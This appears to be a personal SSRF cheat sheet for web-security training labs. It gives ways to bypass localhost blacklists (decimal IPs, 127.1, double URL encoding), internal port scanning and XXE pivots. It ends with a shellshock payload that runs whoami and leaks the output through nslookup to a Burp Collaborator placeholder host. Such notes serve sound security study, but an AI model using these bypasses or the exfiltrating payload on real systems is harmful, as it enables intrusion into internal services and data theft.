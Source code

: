 # SSRF - CHEATSHEET + IMPORTANT LABS

## Key terms

```bash
loopback network interface
```

## Most important labs

- [SSRF via arbitraty host + EXTRA lab: absolute path](../Host-Header-Injection/SSRF-via-arbitraryhost-and-absolute-path.md)

- [SSRF-via-host-validation-bypass-via-connection-state-attack](../Host-Header-Injection/SSRF-via-host-validation-bypass-via-connection-state-attack.md) ❗

- [3]()

- [4]()


## Methodology

```bash
- Server send any http request? -> SSRF
	  -> localhost/foo -> blacklisted?
					   -> send in decimal -> https://www.ipaddressguide.com/ip
					   -> 127.1 = 127.0.0.1
					   -> 127.255.255.255
						   -> /foo -> url encode all characters x2 times, example ->   http://127.1/%2561%2564%256d%2569%256e
		
	  -> Intruder x.x.x.x:xxxxx/foo to scan internal network
- Switch protocol (http/https)	  
- Search open redirect -> in url?
- Refer to our server -> User Agent? -> shellshock
- XML? -> try XXE  

```

#### Cheat Sheet

```
() { :; }; /usr/bin/nslookup $(whoami).BURP-COLLABORATOR-SUBDOMAIN```
```